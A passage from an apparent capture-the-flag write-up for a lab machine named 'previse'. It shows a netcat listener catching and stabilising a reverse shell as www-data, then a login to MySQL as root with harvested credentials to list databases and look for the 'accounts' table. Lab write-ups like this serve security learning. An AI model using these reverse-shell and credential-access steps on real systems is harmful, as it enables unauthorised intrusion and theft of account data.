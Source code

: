 ```
[1]+  Stopped                 nc -lvnp 7575
$ stty raw -echo;fg
nc -lvnp 7575

www-data@previse:/var/www/html$ stty rows 55 cols 236
```

## Database hash

Since we have the database credentials we can now connect to it.

```
www-data@previse:/var/www/html$ mysql -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 26
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

There is only one custom database named `previse`.

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use previse
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

Looking at the tables, `accounts` looks particularily interesting.
